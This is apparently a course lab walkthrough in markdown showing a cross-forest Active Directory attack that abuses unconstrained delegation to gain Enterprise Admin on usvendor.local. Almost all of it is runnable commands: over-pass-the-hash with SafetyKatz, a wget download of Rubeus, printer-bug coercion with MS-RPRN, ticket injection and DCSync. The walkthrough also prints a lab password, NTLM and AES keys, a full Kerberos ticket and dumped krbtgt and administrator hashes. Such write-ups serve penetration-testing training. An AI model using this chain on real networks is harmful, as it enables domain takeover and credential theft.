

# Hands-on 24: Cross Forest Attacks - Unconstrained Delegation

- [Hands-on 24: Cross Forest Attacks - Unconstrained Delegation](#hands-on-24-cross-forest-attacks---unconstrained-delegation)
  - [Task](#task)
  - [Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local](#abuse-the-unconstrained-delegation-on-us-web-to-get-enterprise-admin-privileges-on-usvendorlocal)

---

## Task

Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local

<br/>

---

## Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on usvendor.local

In [Hands-on 10](l10-Exchange.md), we dumped the following credential:

Note:
`us\webmaster`
- Password: `0wnerOftheIntraNetz`
- AES256: `2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0`
- NTLM: `23d6458d06b25e463b9666364fb0b29f`

<br/>

Over-pass-the-hash using this credential in an elevated prompt:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /run:powershell.exe" "exit"
```

```
winrs -r:us-web.us.techcorp.local powershell.exe
```

<br/>

Download `Rubeus.exe` from local machine:

```
powershell -ep bypass
```

```
cd C:\Users\Public; wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

<br/>

Listen for TGT:

```
C:\Users\Public\Rubeus.exe monitor /targetuser:usvendor-dc$ /interval:5 /nowrap
```

  

<br/>

Trigger the printer bug using `MS-RPRN.exe` on the local machine:

```
C:\AD\Tools\MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-web.us.techcorp.local
```

  

<br/>

A TGT from `usvendor-dc` is sent to `us-web`:

  

```
doIFUzCCBU+gAwIBBaEDAgEWooIETjCCBEphggRGMIIEQqADAgEFoRAbDlVTVkVORE9SLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5VU1ZFTkRPUi5MT0NBTKOCBAIwggP+oAMCARKhAwIBAqKCA/AEggPssIWsG+p4XCvrlLuJxtybZIcGPbOy8LboLYPOFoHkrST3LjkKPInIUCEZvozPEZiCDoVV+o5djQJihge2JfQ092PMO9ISAH1Q0YqzAqUX9oMRVU9MtUPGQdbsYCCSZR/OCPdkm8emN63r1Ozhd2rWWUcFyoU+imjRDBKvd+xGwOXN4B4L+VGGcNHoK5cBa4BJK2CeArloi1JaZ0v9rRF1f/ouINpMRAimrKF7JrGJ0j/ekxBh+ntxcRBPaGoxENycbC1BzZCSW/Ok8CgfSpWqWTGfmeDwJQw5FO1OJDUtxxT2O9qF1t9gQPeJSu2hcl3pLQJS1GRqpfR8rHCArnuvwT1ofXjJ1MgA3BhSQS2o8VWg0+t2yg1NB8G4SQkDHrqA+o60bSeF9EWvuowBYYZVabLgiUwAk7Gq+f/CPOJhGZWXA+jSbl2MQ7Y8Z8c0r8wVuYCPgyClg6toGlWdwkIh7p/+vlVZCFF28bkVnXrguHhBjjAfxB7RUClyOsRWgHTvW5fhzwSmBPduVm2mGFJHKUQ8w4jf9fsoH3kwq8y32SEM75/U83jR5EmsKsbsYffA9+kCuw/y3cq3iVpGCPYy7k5wKJcDVT9Yc9zh3HPjQmybO8kfdoxZxRM9meBbHZrzzi8UnODjw/GHB5FwO9QbjD796wtDsuL6uXrla7f6ET3H4V4ZjWftHxXpTeQtseWuBoAJSn/i+jQig5BovthWdpwIKFAqtW4KTP4xfFH8hXT32tL++hLyulXQPFM1iiPYJN8jyv7U/rJYLhmqVM83Oa7/J9X4n4Rwi69OWkiTZRCNYG1Y/V1j2M26dgHjwHdkgCL9Rk5KUV1YKpp5nrlojyuTSD9JyHrAOEOjR6b2gOWP6S9pKAust21tOghdtptiUip2t0CHp/eRSdrFst+oLOfynPqIfAUM7PpwOlV6jNxBy3l/aCJ2c2/VHyliVILiSzm11HCu6hO1G7Txxx+XjYooYXF/EPphVl4qWJrE3ly9WZl6YR8FhFRRaG/gSH/H2A0fuzQJIzjvK0ZgnQKduUSQMTMwYfVRlolC/2+Dp05pT0kU/ghfylDji4rw9SEYuXtgUa/009wBhGqxZfAiHMd1fgtJXdZBTXNrS7eVn9qIkTBq5Wlmps4x2y/6RW5twbYFaeJDmsjMGZmB5ZYWbFCiBt1LIURqAXRd+d916BJOntBVPiUfwy1otHomHvY1jPX2qQhmTtQYju1JQ4D5C28cm3Jhj1kLog3nYZLCv00/mmVHn9ZljTjb9hSoc/JfpAl1HvcWERhPureo4LjesO+fWi1BnJ6a8INQNSQaVerWuzeQV+ZnV3YfNa6jgfAwge2gAwIBAKKB5QSB4n2B3zCB3KCB2TCB1jCB06ArMCmgAwIBEqEiBCBknNMoS7iAp0qc72Zc+4BIyxAwSVGpl8np8B8ckYzRz6EQGw5VU1ZFTkRPUi5MT0NBTKIZMBegAwIBAaEQMA4bDFVTVkVORE9SLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyNTA5NDEzNFqmERgPMjAyMTAxMjUxOTQxMzRapxEYDzE5NzAwMTAxMDAwMDAwWqgQGw5VU1ZFTkRPUi5MT0NBTKkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVVNWRU5ET1IuTE9DQUw=
```

<br/>

Then on the local machine, use over-pass-the-hash:

```
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFUzCCBU+gAwIBBaEDAgEWooIETjCCBEphggRGMIIEQqADAgEFoRAbDlVTVkVORE9SLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5VU1ZFTkRPUi5MT0NBTKOCBAIwggP+oAMCARKhAwIBAqKCA/AEggPssIWsG+p4XCvrlLuJxtybZIcGPbOy8LboLYPOFoHkrST3LjkKPInIUCEZvozPEZiCDoVV+o5djQJihge2JfQ092PMO9ISAH1Q0YqzAqUX9oMRVU9MtUPGQdbsYCCSZR/OCPdkm8emN63r1Ozhd2rWWUcFyoU+imjRDBKvd+xGwOXN4B4L+VGGcNHoK5cBa4BJK2CeArloi1JaZ0v9rRF1f/ouINpMRAimrKF7JrGJ0j/ekxBh+ntxcRBPaGoxENycbC1BzZCSW/Ok8CgfSpWqWTGfmeDwJQw5FO1OJDUtxxT2O9qF1t9gQPeJSu2hcl3pLQJS1GRqpfR8rHCArnuvwT1ofXjJ1MgA3BhSQS2o8VWg0+t2yg1NB8G4SQkDHrqA+o60bSeF9EWvuowBYYZVabLgiUwAk7Gq+f/CPOJhGZWXA+jSbl2MQ7Y8Z8c0r8wVuYCPgyClg6toGlWdwkIh7p/+vlVZCFF28bkVnXrguHhBjjAfxB7RUClyOsRWgHTvW5fhzwSmBPduVm2mGFJHKUQ8w4jf9fsoH3kwq8y32SEM75/U83jR5EmsKsbsYffA9+kCuw/y3cq3iVpGCPYy7k5wKJcDVT9Yc9zh3HPjQmybO8kfdoxZxRM9meBbHZrzzi8UnODjw/GHB5FwO9QbjD796wtDsuL6uXrla7f6ET3H4V4ZjWftHxXpTeQtseWuBoAJSn/i+jQig5BovthWdpwIKFAqtW4KTP4xfFH8hXT32tL++hLyulXQPFM1iiPYJN8jyv7U/rJYLhmqVM83Oa7/J9X4n4Rwi69OWkiTZRCNYG1Y/V1j2M26dgHjwHdkgCL9Rk5KUV1YKpp5nrlojyuTSD9JyHrAOEOjR6b2gOWP6S9pKAust21tOghdtptiUip2t0CHp/eRSdrFst+oLOfynPqIfAUM7PpwOlV6jNxBy3l/aCJ2c2/VHyliVILiSzm11HCu6hO1G7Txxx+XjYooYXF/EPphVl4qWJrE3ly9WZl6YR8FhFRRaG/gSH/H2A0fuzQJIzjvK0ZgnQKduUSQMTMwYfVRlolC/2+Dp05pT0kU/ghfylDji4rw9SEYuXtgUa/009wBhGqxZfAiHMd1fgtJXdZBTXNrS7eVn9qIkTBq5Wlmps4x2y/6RW5twbYFaeJDmsjMGZmB5ZYWbFCiBt1LIURqAXRd+d916BJOntBVPiUfwy1otHomHvY1jPX2qQhmTtQYju1JQ4D5C28cm3Jhj1kLog3nYZLCv00/mmVHn9ZljTjb9hSoc/JfpAl1HvcWERhPureo4LjesO+fWi1BnJ6a8INQNSQaVerWuzeQV+ZnV3YfNa6jgfAwge2gAwIBAKKB5QSB4n2B3zCB3KCB2TCB1jCB06ArMCmgAwIBEqEiBCBknNMoS7iAp0qc72Zc+4BIyxAwSVGpl8np8B8ckYzRz6EQGw5VU1ZFTkRPUi5MT0NBTKIZMBegAwIBAaEQMA4bDFVTVkVORE9SLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyNTA5NDEzNFqmERgPMjAyMTAxMjUxOTQxMzRapxEYDzE5NzAwMTAxMDAwMDAwWqgQGw5VU1ZFTkRPUi5MT0NBTKkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVVNWRU5ET1IuTE9DQUw=
```

  

<br/>

Try to perform a DCSync against `usvendor-dc`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /domain:usvendor.local /user:usvendor\krbtgt" "exit"
```

  

Note:
usvendor\krbtgt
- SID: `S-1-5-21-2028025102-2511683425-2951839092-502`
- NTLM: `335caf1a29240a5dd318f79b6deaf03f`
- AES256: `2b0b8bf77286337369f38d1d72d3705fda18496989ab1133b401821684127a79`

<br/>

Do it for `usvendor\administrator` as well:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /domain:usvendor.local /user:usvendor\administrator" "exit"
```

  

Note:
usvendor\administrator
- SID: `S-1-5-21-2028025102-2511683425-2951839092-500`
- NTLM: `67ad980708fe40f846c9397ec051020b`
- AES256: `17718f4898a31b97f7cc3437b148cbc1ac3ce7c827e8cfef7ccc1332887bb099`

<br/>

---